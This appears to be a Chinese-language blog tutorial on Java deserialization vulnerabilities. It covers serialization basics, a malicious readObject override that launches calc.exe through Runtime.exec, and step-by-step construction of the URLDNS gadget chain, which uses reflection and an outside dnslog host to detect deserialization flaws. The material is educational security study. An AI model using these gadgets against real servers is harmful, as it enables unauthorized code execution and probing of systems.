









一、序列化和反序列化
Java的序列化就是将对象转化为一个二进制的字节流的过程，该字节序列包含该对象的属性和方法；反序列化顾名思义就是将对象字节流转化为对象，而序列化时需要使用writeObject将对象转化为字节流，反序列化需要使用readObject将字节流转化为对象。
本文章所有的Java代码均未导包，可自行Alt + Shift + Enter修复。
下面先写一个简单的类：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
|
public class People implements java.io.Serializable{
public String name;
public String sex;
public int age;
public People(String name, String sex, int age) {
this.name = name;
this.sex = sex;
this.age = age;
}
}
|
再实现一个序列化和反序列的功能：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
|
public class SerializeDemo {
public static void DeSerialize(byte[] objStream) throws IOException, ClassNotFoundException {
ByteArrayInputStream bytesStream = new ByteArrayInputStream(objStream);
ObjectInputStream inStream = new ObjectInputStream(bytesStream);
System.out.println(inStream.readObject().getClass());
}
public static byte[] Serialize(Object obj) throws IOException {
ByteArrayOutputStream bytesStream = new ByteArrayOutputStream();
ObjectOutputStream outputStream = new ObjectOutputStream(bytesStream);
outputStream.writeObject(obj);
outputStream.close();
System.out.println(bytesStream.toString());
return bytesStream.toByteArray();
}
public static void main(String [] args) throws IOException, ClassNotFoundException {
People people = new People("ZhangSan", "boy", 18);
byte[] byteArray = Serialize(people);
DeSerialize(byteArray);
}
}
|
我们运行一下可以看到序列化后的字节流以及反序列化后的对象，那为什么反序列化会被利用呢？

可以先按照其他漏洞来一起理解，为什么会存在SQL注入、为什么会存在XSS、为什么会存在SSRF等等，主要原因还是因为后端过于信任用户所输入的字符串，导致用户构造任意字符达成恶意攻击。那么同理，Java反序列化漏洞其原理也是因为对用户的输入没有做严格的过滤，导致用户可传入精心构造的字节流。
二、漏洞利用
1. 简单利用
我们可以创建一个恶意的可序列化类，并重写它的readObject方法：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
|
private void readObject(ObjectInputStream objInputStream) throws IOException, ClassNotFoundException {
objInputStream.defaultReadObject();
Runtime.getRuntime().exec("calc.exe");
}
public static void main(String [] args) throws IOException, ClassNotFoundException {
People people = new People("ZhangSan", "boy", 18);
byte[] byteStream = SerializeDemo.Serialize(people);
SerializeDemo.DeSerialize(byteStream);
}
|
可以看到成功弹出了计算器并且原本的逻辑正常，这就解释了为什么反序列化会被利用，但真实环境中其Java环境也不会存在这种类，故还需要结合其他方法一起利用。

2. 构造URLDNS链
这种方法一般是用来检测是否存在反序列化漏洞，因为此链不需要依赖第三方包，也不限制jdk版本（还是限制的，JDK17后默认不支持对私有类成员的修改）。
上面说过想要做反序列化，那这个对象一定是可序列化对象，即实现Serializable接口的类，若想构造URLDNS链，常用的是就是实例化一个HashMap<URL, String>对象。先查看HashMap的readObject（它自己重写了readObject方法），我们跟进这个hash方法

可以看到hash方法内又调用了key对象的hashCode方法

而我们的key选择的是URL对象，故找到URL中的hashCode方法进行查看，如果HashCode为为-1就调用另一个HashCode方法（HashCode初始化就是-1）。


再继续跟进handler.HashCode()方法中，可以看到里面调用了getHostAddress方法，即当我们创建了一个HashMap<URL, String>的对象并将其序列化字节流传入服务器进行反序列化时，就会通过getHostAddress方法对我们传入的子域名进行dns查询。

可以先尝试在main函数中编写以下代码：
1
2
3
4
5
6
7
8
| public static void main(String [] args) throws IOException {
HashMap<URL, String> hashMap = new HashMap<URL, String>();
URL url = new URL("http://zli1yc.dnslog.cn");
hashMap.put(url, "123");
}
|
运行上述代码你会发现你的dnslog平台已经出现了请求记录，但是我们并没有做反序列化操作。

我们先跟进put方法查看，发现put中也存在hash方法的调用，若这样就无法判断目标服务器是因为调用的put方法触发的，还是反序列化触发的。

故我们需要在put前就将URL实例化对象内的HashCode改为非-1,Java也提供了反射机制，可以动态构造任意类对象，已经修改类属性，将上述代码修改为如下所示：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
| public static void main(String [] args) throws IOException, NoSuchFieldException, IllegalAccessException {
HashMap<URL, String> hashMap = new HashMap<URL, String>();
URL url = new URL("http://zli1yc.dnslog.cn");
Class c = url.getClass();
Field hashCode = c.getDeclaredField("hashCode");
hashCode.setAccessible(true);
hashCode.set(url, 123);
hashMap.put(url, "123");
hashCode.set(url, -1);
SerializeDemo.Serialize(hashMap);
}
|
重新运行，这个时候dnslog就收不到dns请求，我们再向上述代码补充反序列化代码，并重新运行又能重新看到请求：
1
2
3
4
|
byte[] objStream = SerializeDemo.Serialize(hashMap);
SerializeDemo.DeSerialize(objStream);
|

以上方法就是用来检测Java是否存在反序列化漏洞的URLDNS链。
在JDK17环境中默认情况下无法修改私有属性的值，故无法通过该方法构造该链，不过ysoserial工具有另一种方法防止该链在序列化前就触发DNS查询请求，具体可以看本博客的其他文章分析。